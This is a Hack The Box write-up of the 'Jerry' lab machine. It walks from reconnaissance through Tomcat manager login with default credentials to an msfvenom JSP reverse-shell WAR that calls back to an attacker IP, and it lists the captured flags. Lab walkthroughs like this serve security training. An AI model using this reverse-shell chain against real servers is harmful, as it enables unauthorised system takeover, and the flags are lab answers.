


Jerry HTB
| Name | Jerry |
| Description | Jerry is an easy-difficulty Windows machine that showcases how to exploit Apache Tomcat, leading to an NT Authority\SYSTEM shell, thus fully compromising the target. |
| Difficulty | Easy |
| Host | 10.129.136.9 |
Reconnaissance
Nmap Scan
sudo nmap -T4 -sS -sV -sC -v -Pn -A 10.129.136.9 Results:
| Port | Service | Version | Notes |
|---|---|---|---|
| 8080 | Apache Tomcat/Coyote JSP engine | 1.1 | From title its hosting Apache Tomcat/7.0.88 and that s the only open ports |
{kind=link}
Web Enumeration
whatweb http://10.129.136.9:8080{kind=link}
Findings:
- Service Disclosure Apache Tomcat/7.0.88
- Apache Tomcat/7.0.88 default page after opening the website on port 8080
- Login portal /manager/html (From documentation on default page)
- Default credential revealed after failed login attempt
{kind=link}

Credentials Discovered
| Type | Value | Found At |
|---|---|---|
| Default | tomcat:s3cret | Failed login page /manager/html |
Exploitation
| Field | Value |
|---|---|
| Vulnerability Type | Security Misconfiguration |
| CVE | n/a |
| Type | Authenticated RCE |
| Source | Manual - Msfvenom |
| Target | Service:8080 |
The website allows upload of .war files to create new webpage. Using msfvenom to create a .war payload is the best exploitation approach to exploit the machine.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.58 LPORT=1997 -f war > jerry.warProof of concept:
Create a netcat Listener on port 1997
nc -nvlp 1997After signing in with the acquired credentials, scroll to the deploy section and upload the jerry.war file.
Browse to /jerry/ to trigger the reverse shell
Initial foothold

Initial Foothold: Reverse shell
{kind=link}
Post-Exploitation
{kind=link}
Current user: nt authority\system
Current directory: C:\apache-tomcat-7.0.88
Flags
{kind=link}
User Flag
Flag: 7004dbcef0f854e0fb401875f26ebd00
Root Flag
Flag: 04a8b36e1545a455393d067e772fe90e
Privilege Escalation
Tomcat is running with NT AUTHORITY\SYSTEM and reverse shell is already SYSTEM.
Tools Used
| Tool | Purpose |
|---|---|
| Nmap | Port scanning |
| Whatweb | Web technology fingerprinting |
| Msfvenom | Generate WAR reverse shell payload |
| nc | Catch reverse shell |
Lessons Learned
- Default credentials are a critical risk,
tomcat:s3cretgrants full manager access.
- Tomcat service accounts should never run as SYSTEM. Always run as a low-privileged user.
- WAR deployment is an easy RCE vector if the manager interface is exposed and poorly configured.
References
- Tomcat Manager App Guide - Official guide to the HTML interface
Completed on: 12 May 2026 | Time spent: 20 minutes
Final thoughts: The simplest vulnerabilities are often the most dangerous, not because they're hard to find, but because they're so easily overlooked.